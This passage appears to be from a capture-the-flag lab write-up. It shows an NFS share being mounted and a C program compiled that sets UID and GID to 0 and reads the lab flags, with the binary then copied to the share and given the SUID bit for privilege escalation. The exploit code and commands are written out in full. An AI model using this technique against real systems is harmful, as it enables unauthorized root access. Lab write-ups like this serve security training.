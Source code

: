 ```bash
sudo mount -t nfs 10.10.249.239:/home/ubuntu/sharedfolder /tmp/bb
```

#### Creating the binary and giving the `SUID`

The `C` code:

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
   setgid(0);
   setuid(0);
   system("cat /home/* 2>/dev/null | grep THM");
return 0;
}
```

Compiling it..
```bash
sudo gcc -static -o rooted exp.c
sudo cp rooted bb/rooted
```

Setting the `SUID`...
```bash
sudo chmod +s bb/rooted
```

On host..

![host.png](../../photos/host.png)

on Attacked Machine...

![machine.png](../../photos/machine.png)
